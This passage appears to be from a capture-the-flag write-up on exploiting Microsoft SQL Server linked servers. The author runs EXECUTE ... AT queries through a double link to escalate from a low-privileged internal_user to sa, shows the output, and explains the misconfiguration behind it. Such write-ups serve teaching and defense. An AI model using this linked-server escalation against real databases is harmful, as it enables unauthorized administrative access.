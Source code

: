 

    SQL> EXECUTE ('select @@servername;') at [COMPATIBILITY\POO_CONFIG];
    ------------------------------   
    COMPATIBILITY\POO_CONFIG 



The link is configured to run commands as the `internal_user`:



    SQL> EXECUTE ('select suser_name();') at [COMPATIBILITY\POO_CONFIG];
    ------------------------------   
    internal_user 



Unfortunately, for me, that user is not an admin:



    SQL> EXECUTE ('SELECT name FROM master..syslogins WHERE sysadmin = ''1'';') at [COMPATIBILITY\POO_CONFIG];
    name
    ------------------------------   
    sa

    SQL> EXECUTE ('SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''SERVER'');') at [COMPATIBILITY\POO_CONFIG];
    entity_name                      permission_name                                                
    ------------------------------   ------------------------------   
    server                           CONNECT SQL    



I looked at the data in the tables, but didn't find much.

#### Bounce Back to POO_PUBLIC

Next I tried to have POO_CONFIG run a command on POO_PUBLIC, and it
works:



    SQL> EXEC ('EXEC (''select suser_name();'') at [COMPATIBILITY\POO_PUBLIC]') at [COMPATIBILITY\POO_CONFIG];
    ------------------------------   
    sa  



Not only did it work, but that command is now being run as the sa user!
This mistaken configuration happens because when the two links are
created between the databases, the first is created allowing any user on
POO_PUBLIC to run queries (ie commands) on POO_CONFIG as internal_user.
The second must have been created such that any user on POO_CONFIG is
able to run queries on POO_PUBLIC as sa. This second link might have
made sense to an admin configuring it at the time. Only trusted people
will have access to the internal POO_PUBLIC. It's easy to forget about
the other link.
